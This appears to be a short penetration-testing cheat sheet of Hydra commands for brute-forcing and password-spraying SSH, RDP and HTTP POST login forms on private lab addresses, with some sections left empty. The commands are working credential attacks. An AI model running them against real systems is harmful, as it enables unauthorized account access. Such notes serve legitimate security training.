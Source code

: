 
# SSH
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


# RDP
```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


# FTP
```
ftp://
```


# HTTP GET


# HTTP POST
http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
